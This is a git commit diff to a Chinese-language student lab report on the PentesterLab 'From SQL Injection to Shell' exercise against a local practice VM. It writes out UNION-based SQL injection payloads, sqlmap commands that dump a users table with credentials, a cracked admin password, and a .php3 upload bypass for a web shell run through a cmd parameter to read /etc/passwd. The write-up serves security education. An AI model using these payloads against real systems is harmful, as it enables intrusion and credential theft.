

修改了上次实验部分笔误问题、完成sqlmap部分实验

diff --git a/ns_chap0x07/实验报告.md b/ns_chap0x07/实验报告.md
@@ -42,13 +42,13 @@
 
 2. 攻击前侦测
 
-- 使用nmap查考靶机上端口开放情况,可以看到22和80端口是开启的
+- 使用nmap扫描靶机上端口开放情况,可以看到22和80端口是开启的
 
-        nmap 192.168.56.102
+        nmap -A -n -T4 192.168.56.102
 
 ![](img/SQL_port.PNG)
 
-- 尝试连接端口，telnet无法进行连接，但nc可以
+- 尝试连接端口，telnet、nc都能检测靶机上的80端口已开启
 
         telnet 192.168.56.102 80
 
@@ -58,7 +58,7 @@
 
 ![](img/attack_nc.PNG)
 
-- 对网页的网站源代码等进行分析，发现其后端使用了PHP
+- 对网页的网站源代码等进行分析，发现其后端可能是使用了PHP
 
 ![](img/attack_webpage1.PNG)
 
@@ -111,7 +111,7 @@
 
 ![](img/SQL_union1234.PNG)
 
-- 通过修改`2`的值来获取数据库版本、用户信息等
+- 通过前面的测试，我们已经知道了服务器会返回第二列的内容，所以通过修改`2`的值来获取数据库版本、用户信息等
 
         192.168.56.102/cat.php?id=1 UNION SELECT 1,current_user(),3,4
 
@@ -125,7 +125,9 @@
 
 ![](img/SQL_database.PNG)
 
-- 查看数据的所有表名，和表的列名
+- mysql大于5.0的版本默认安装后都有INFORMATION_SCHEMA数据库。在information_schema这张数据表保存了MySQL服务器所有数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。
+
+- 我们通过尝试访问information_schema表，来查看数据库中所有表名，和表的列名
 
         192.168.56.102/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables
 
@@ -149,7 +151,7 @@
 
 ![](img/attack_getpassword.PNG)
 
-- 在获取到用户名和密码后，密码是一串乱码的字符串，使用其进行登录，发现登录失败
+- 在获取到用户名和密码后，密码是一串第一眼看上去没有任何意义的、有字母和数据组成的字符串，使用其进行登录，发现登录失败
 
 - 猜测其为哈希值，使用在线网站尝试进行破解，得到一串有意义的字符串，再次尝试登录，登录成功，则管理员名为`admin`，密码为`P4ssw0rd`
 
@@ -171,21 +173,63 @@
 
 ![](img/attack_uploadphp.PNG)
 
-- 尝试绕过检测，修改文件后缀为`.php3`，这次成功上传
+- 尝试绕过检测，由于服务器配置可能存在缺陷，尝试修改文件后缀为`.php3`，这次成功上传
 
 ![](img/attack_php3.PNG)
 
 ![](img/attack_findphp3.PNG)
 
-- 上传成功后，即可直接用url执行cmd参数的命令
+- 上传成功后，发现能正常执行，说明服务器有设置将`.php3`作为`.php3`来进行执行。之后即可直接用url执行cmd参数的命令
 
         192.168.56.102/admin/uploads/shell.php3?cmd=cat /ect/passwd
 
         192.168.56.102/admin/uploads/shell.php3?cmd=uname
 
-## 3、实验参考
+## 3、 sqlmap注入
+
+- kali上自带sqlmap，所以直接使用就行，使用前查看帮助信息
+
+        sqlmap -h
+
+![](img/sqlmap0.PNG)
+
+- 查找服务器上的数据库相关信息
+
+        sqlmap -u "192.168.56.101/cat.php?id=1" --dbs
+
+![](img/sqlmap1.PNG)
+
+- 进行表名查找
+
+        sqlmap -u "192.168.56.101/cat.php?id=1" -D information --tables
+
+        sqlmap -u "192.168.56.101/cat.php?id=1" -D photoblog --tables
+
+![](img/sqlmap2.PNG)
+
+![](img/sqlmap3.PNG)
+
+- 发现疑似要我们目标的users表，查看users的列信息
+
+        sqlmap -u "192.168.56.101/cat.php?id=1" -D photoblog -T photoblog --columns
+
+![](img/sqlmap4.PNG)
+
+- 在users表中发现疑似我们目标的password段，对users表信息进行输出
+
+- 在输出的时候，可选择是否将hash值进行保存，是否进行hash破解，并选择破解的方式等等
+
+- 可从结果的截图中看出，直接输出了password的明文信息
+
+        sqlmap -u "192.168.56.101/cat.php?id=1" -D photoblog -T photoblog -C "id,login,password" --dump
+
+![](img/sqlmap5.PNG)
+
+## 4、 实验参考
 
 [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
 
 [Wfuzz 使用](https://blog.csdn.net/hardhard123/article/details/79596104)
+
+[SQLMAP注入教程](https://www.cnblogs.com/ichunqiu/p/5805108.html)
 
